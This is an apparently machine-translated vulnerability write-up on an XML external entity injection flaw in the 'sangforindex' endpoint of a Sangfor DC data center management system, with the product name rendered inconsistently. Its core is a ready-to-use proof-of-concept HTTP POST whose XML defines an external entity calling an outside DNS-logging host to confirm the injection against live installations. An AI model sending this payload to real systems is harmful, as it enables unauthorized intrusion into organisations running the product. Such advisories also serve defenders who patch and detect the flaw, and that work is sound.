 #Shenxinshui DC Data Center Management System sangforindex XML Entity Injection Vulnerability

## Vulnerability Description

Deepin Service DC Data Center Management System sangforindex interface has an XML entity injection vulnerability, and an attacker can send a specific request packet to cause XML entity injection.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Shenxinshui DC Data Center Management System </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692061412640-89b0f89d-f4eb-4cec-8df7-42a0c36fe233.png)

Verify POC

```plain
POST /src/sangforindex HTTP/1.1
Host: 
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
    <!ENTITY rootas SYSTEM "https://xgsg1k.dnslog.cn">
]>
<xxx>
&rootas;
</xxx>
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692061553187-836f8383-a0e4-419d-b6eb-a001f62a92d5.png)